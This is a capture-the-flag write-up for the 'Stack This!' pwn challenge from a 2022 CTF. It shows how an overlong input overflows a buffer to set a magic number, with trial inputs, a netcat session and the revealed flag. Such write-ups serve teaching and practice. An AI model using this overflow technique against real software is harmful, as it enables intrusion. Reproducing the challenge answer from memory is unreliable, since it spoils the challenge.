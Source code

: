 # Stack This! (100)
#### pwn - Virginia TSA Technosphere 2022 CTF

## Challenge description:
> Quite ironically, the CTFd engineers are hard at work on a new utility for [stack smashing](https://wiki.c2.com/?StackSmashing) and seem to have put a stack vulnerability into the very same program.
> 
> Download file: [stackthis](./../assets/stackthis)

## Solution 
We are given a binary and information to connect to a server with netcat.

After marking it as executable with `chmod +x stackthis`, running the binary asks for a name and returns a magic number. It also says entering a text with a "magic number" of 1734437990 will return the flag.

Using trial-and-error with the local binary, I found the string returning 1734437990. This was over five characters as to overflow the buffer allowing for stack-smashing.

```
AAAAAAAA = 1094795585
BBBBBBBBB = 1111638594
ZZZZZZZZZZ = 1515870810
aaaaaaaaaaa = 1633771873
zzzzzzzzzzzz = 2054847098
fffffffffffff = 1717986918
gggggggff = 1717987175
flag{flagflag} = 1734437990
```

Submitting this to the netcat server yielded the flag.

```
$ nc 0.cloud.chals.io 15343
*** CTFd StackSmasker Version .0001alpha

*** Since this is an alpha product, we are asking customers
    to keep all input limited to 5 characters or less

*** Rumor has it that getting it to print 1734437990 might produce a
    flag, though.

What is your name? flag{flagflag}
magicNumber: 1734437990
******************
```

<details> 
    <summary>Flag</summary>
flag{funandprofit}
</details>